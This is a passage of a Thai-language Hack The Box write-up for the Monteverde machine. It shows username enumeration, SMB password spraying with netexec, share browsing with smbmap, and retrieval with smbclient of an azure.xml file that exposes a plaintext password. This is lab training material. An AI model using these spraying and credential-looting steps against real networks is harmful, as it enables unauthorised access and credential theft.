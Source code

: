 
จากข้อมูลด้านบนจะเห็นได้ว่ามีชื่อผู้ใช้จำนวนมากที่สามารถ list ออกมาได้ ดังนี้ 

```users.txt
dgalanos
mhope
roleary
SABatchJobs
smorgan
svc-ata
svc-bexec
svc-netapp
```

```bash
netexec smb 10.10.10.172   -u users.txt -p users.txt 
```

![[Challenge/HTB Challenge/Monteverde/IMG/002.png]]



## SMB collect credential 

```bash
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -R 'users$'
```

![[Challenge/HTB Challenge/Monteverde/IMG/003.png]]

ดึงไฟล์ดังกล่าวด้วยคำสั่ง smbclinet 
```bash
smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat azure.xml 
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>                                           
```
